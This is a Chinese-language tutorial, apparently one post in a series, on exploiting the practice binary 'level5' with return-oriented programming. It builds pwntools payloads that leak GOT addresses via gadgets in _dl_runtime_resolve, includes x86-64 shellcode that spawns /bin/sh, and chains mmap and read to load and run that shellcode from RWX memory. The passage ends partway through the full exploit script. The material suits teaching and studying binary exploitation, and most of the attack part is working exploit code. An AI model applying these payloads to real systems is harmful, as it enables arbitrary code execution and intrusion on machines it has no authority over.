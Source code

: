 我们测试的目标程序还是level5。在exp中，我们首先用上一篇中提到的`_dl_runtime_resolve`中的通用gadgets泄露出`got_write`和`_dl_runtime_resolve`的地址。

```
#rdi=  edi = r13,  rsi = r14, rdx = r15 
#write(rdi=1, rsi=write.got, rdx=4)
payload1 =  "\x00"*136
payload1 += p64(0x400606) + p64(0) +p64(0) + p64(1) + p64(got_write) + p64(1) + p64(got_write) + p64(8) # pop_junk_rbx_rbp_r12_r13_r14_r15_ret
payload1 += p64(0x4005F0) # movrdx, r15; movrsi, r14; movedi, r13d; call qword ptr [r12+rbx*8]
payload1 += "\x00"*56
payload1 += p64(main)

#rdi=  edi = r13,  rsi = r14, rdx = r15 
#write(rdi=1, rsi=linker_point, rdx=4)
payload2 =  "\x00"*136
payload2 += p64(0x400606) + p64(0) +p64(0) + p64(1) + p64(got_write) + p64(1) + p64(linker_point) + p64(8) # pop_junk_rbx_rbp_r12_r13_r14_r15_ret
payload2 += p64(0x4005F0) # movrdx, r15; movrsi, r14; movedi, r13d; call qword ptr [r12+rbx*8]
payload2 += "\x00"*56
payload2 += p64(main)

```

随后就可以根据偏移量和泄露的地址计算出其他gadgets的地址。

```
shellcode = ( "\x48\x31\xc0\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e" +
              "\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89" +
              "\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05" )

shellcode_addr = 0xbeef0000

#mmap(rdi=shellcode_addr, rsi=1024, rdx=7, rcx=34, r8=0, r9=0)
payload3 =  "\x00"*136
payload3 += p64(pop_rax_ret) + p64(mmap_addr)
payload3 += p64(linker_addr+0x35) + p64(0) + p64(34) + p64(7) + p64(1024) + p64(shellcode_addr) + p64(0) + p64(0) + p64(0) + p64(0)

#read(rdi=0, rsi=shellcode_addr, rdx=1024)
payload3 += p64(pop_rax_ret) + p64(plt_read)
payload3 += p64(linker_addr+0x35) + p64(0) + p64(0) + p64(1024) + p64(shellcode_addr) + p64(0) + p64(0) + p64(0) + p64(0) + p64(0)

payload3 += p64(shellcode_addr)

```

然后我们利用`_dl_runtime_resolve`里的通用gadgets调用`mmap(rdi=shellcode_addr, rsi=1024, rdx=7, rcx=34, r8=0, r9=0)`,开辟一段RWX的内存在`0xbeef0000`处。随后我们使用`read(rdi=0, rsi=shellcode_addr, rdx=1024)`,把我们想要执行的shellcode读入到`0xbeef0000`这段内存中。最后再将指针跳转到shellcode处就可执行我们想要执行的任意代码了。

完整的exp8.py代码如下:

```
#!/usr/bin/env python
frompwn import *    

elf = ELF('level5')
libc = ELF('libc.so.6') 

p = process('./level5')
#p = remote('127.0.0.1',10001)  

got_write = elf.got['write']
print "got_write: " + hex(got_write)
got_read = elf.got['read']
```